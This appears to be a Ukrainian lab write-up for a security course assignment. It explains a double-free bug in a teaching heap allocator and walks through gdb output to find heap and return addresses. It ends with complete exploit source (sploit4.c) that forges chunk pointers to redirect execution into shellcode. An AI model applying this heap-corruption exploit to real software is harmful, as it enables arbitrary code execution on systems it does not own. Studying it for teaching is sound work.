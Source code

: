 # Doble free

У системі Unix та пізніше у стандартній бібліотеці C є функції для динамічного обробки змінної кількості пам’яті. Це дозволяє програмам динамічно запитувати блоки пам’яті в системі. Операційна система забезпечує лише системний виклик ‘brk’, щоб змінити розмір великого фрагмента пам’яті, який відомий як купа.

Поверх цього системного виклику розміщений інтерфейс tmalloc, який забезпечує шар між додатком та системним викликом. Він може динамічно розбивати великий одиничний блок на менші шматки, звільняти ці шматки на запит програми та уникати фрагментації при цьому.

Разберемось в tmalloc.c.

tmalloc:

```c
void *tmalloc(unsigned nbytes)
{
  CHUNK *p;
  unsigned size;
 


  if (bot == NULL)
    init();

  size = sizeof(CHUNK) * ((nbytes+sizeof(CHUNK)-1)/sizeof(CHUNK) + 1);

  for (p = bot; p != NULL; p = RIGHT(p))
    if (GET_FREEBIT(p) && CHUNKSIZE(p) >= size)
      break;
  if (p == NULL)
    return NULL;

  CLR_FREEBIT(p);
  if (CHUNKSIZE(p) > size)      /* create a remainder chunk */
    {
      CHUNK *q, *pr;
      q = (CHUNK *)(size + (char *)p);
      pr = p->s.r;
      q->s.l = p; q->s.r = pr;
      p->s.r = q; pr->s.l = q;
      SET_FREEBIT(q);
    }
  return FROMCHUNK(p);
}
```

> \[взяв з stdlib.h\] tmalloc повертає покажчик на місце в пам’яті для об’єкта або, якщо пам’яті запитуваного обсягу немає, NULL. Виділена область пам’яті не ініціалізується.

```c
void tfree(void *vp)
{
  CHUNK *p, *q;

  if (vp == NULL)
    return;

  p = TOCHUNK(vp);
  CLR_FREEBIT(p);
  q = p->s.l;
  if (q != NULL && GET_FREEBIT(q)) /* try to consolidate leftward */
    {
      CLR_FREEBIT(q);
      q->s.r      = p->s.r;
      p->s.r->s.l = q;
      SET_FREEBIT(q);
      p = q;
    }
  q = RIGHT(p);
  if (q != NULL && GET_FREEBIT(q)) /* try to consolidate rightward */
    {
      CLR_FREEBIT(q);
      p->s.r      = q->s.r;
      q->s.r->s.l = p;
      SET_FREEBIT(q);
    }
  SET_FREEBIT(p);
}
```

\[взяв з stdlib.h\] tfree звільняє область пам’яті, на яку вказує vp; Ця функція нічого не робить, якщо vр дорівнює NULL. У vp повинен стояти покажчик на область пам’яті, раніше виділену однією з функцій: tcalloc, tmalloc або trealloc.

Подвійні вільні помилки виникають, коли функція tfree\(\) викликається більше одного разу з одним і тим же адресою пам’яті в якості аргументу.

```c
int foo(char *arg)
{
  char *p;
  char *q;

  if ( (p = tmalloc(500)) == NULL)
    {
      fprintf(stderr, "tmalloc failure\n");
      exit(EXIT_FAILURE);
    }
  if ( (q = tmalloc(300)) == NULL)
    {
      fprintf(stderr, "tmalloc failure\n");
      exit(EXIT_FAILURE);
    } 

  tfree(p);
  tfree(q);

  if ( (p = tmalloc(1024)) == NULL)
    {
      fprintf(stderr, "tmalloc failure\n");
      exit(EXIT_FAILURE);
    }

  obsd_strlcpy(p, arg, 1024);

  tfree(q);

  return 0;
}
```

Отже tfree\(q\), звільняє двічі - q. Оскільки вхідний буфер копіюється в розташування вказівника p, ми можемо довільно записувати туди, де знаходився звільнений q CHUNK. Коли знову викликається free на q, він, як правило, нічого не робить. Але з цією вразливістю ми зможемо створити CHUNK, який розміщемо у q, це дозволить вільно писати 4 байти в будь-якому місці, яке ми вибиримо в пам’яті.

```c
  if (q != NULL && GET_FREEBIT(q)) /* try to consolidate leftward */
    {
      CLR_FREEBIT(q);
      q->s.r      = p->s.r;
      p->s.r->s.l = q;
      SET_FREEBIT(q);
      p = q;
    }
```

Щоб створити цей CHUNK, ми спочатку встановлюємо FREEBIT на 1 в Сhunk, таким чином, функція tfree\(\) продовжуватиме намагатися звільнити цей CHUNK. Ми виготовляємо два інших CHUNK для лівого та правого покажчиків, які знаходяться по обидва боки q CHUNK. Правий CHUNK знаходиться вгорі в пам’яті, а лівий CHUNK знаходиться внизу, навпроти умовної позначки. Для цього sploit4.c нас цікавить лише лівий CHUNK, для якого ми також встановили FREEBIT.

```c
  q->s.r      = p->s.r;
  p->s.r->s.l = q;
```

Cпочатку цей код копіює правий вказівник створеного фрагмента в правий вказівник лівого CHUNK. Потім він записує покажчик лівого CHUNK в місце, вказане для лівого вказівника правого CHUNK. Якщо ми встановимо лівий покажчик для правого фрагмента як EIP, ми можемо самостійно направити адресу лівого CHUNK до нього.

```bash
user@vm-cs155:~/proj1/sploits$ gdb -e sploit4 -s /tmp/target4
(gdb) catch exec 
(gdb) r
(gdb) break foo 
(gdb) c
(gdb) info frame
...
 ebp at 0xbffffa6c, eip at 0xbffffa70
(gdb) break tfree
(gdb) c
(gdb) x vp
0x804a068 <arena+8>:    0x00000000
(gdb) x q
0x804a268 <arena>:0x00000000
(gdb) x p
0x804a060 <arena>:  0x00000000
```

Ми визнати, що початкова адреса, виділеної за допомогою p, дорівнює 0x804a068, а позиція, відведена q, дорівнює 0x804a268, тобто різниця становить 0x200 або 512 байт. Отже, коли другий раз p застосує 1024 байта, він перезапише вміст блоку q. Відповідно до функції \(макросу\) TOCHUNK, функція отримає відповідну адресу - 8 байт розташування адреси \(розмір блоку CHUNK становить 8 байт\), тоді інформація про блок, де зберігається q за адресою 0x804a268–8 = 0x804a260. Струкртура чанків:

```c
typedef union CHUNK_TAG
{
  struct
    {
      union CHUNK_TAG *l;       /* leftward chunk */
      union CHUNK_TAG *r;       /* rightward chunk + free bit (see below) */
    } s;
  ALIGN x;
} CHUNK;
```

Перші 4 байти є лівим покажчиком, а останні 4 байти - правим покажчиком, а наступні параметри будуть скопійовані в простір, на який вказує p, структура CHUNK soq, яка відповідає 504–512 байтам нашого корисного навантаження \(вхідний параметр\).

Залишилось лише сміття, написане в правому вказівнику лівого CHUNK. Коли EIP переходить на ліву адресу CHUNK, йому потрібно перестрибнути це сміття. У x86 ми використовували jmp 12 - “\xeb\x0c”, щоб перейти на 12 байт до розділу 0x90 NOP буфера. Код оболонки знаходився в кінці буфера. Отже, як тільки він перестрибує ці байти, лічильник програми буде переходити до шеллокода.

Sploit4:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target4"

int main(void)
{
  char buf[1024];
  memset(buf, '\x90', sizeof(buf));
  memcpy(buf + 32, shellcode, strlen(shellcode));
  *(int *)(buf + 512 - 8) = 0x0804a068;
  *(int *)(buf + 512 - 4) = 0xbffffa70;
  *(int *)(buf + 4) = -1;
  *(short *)(buf) = 0x0ceb; 

  char *args[] = { TARGET, buf, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
```

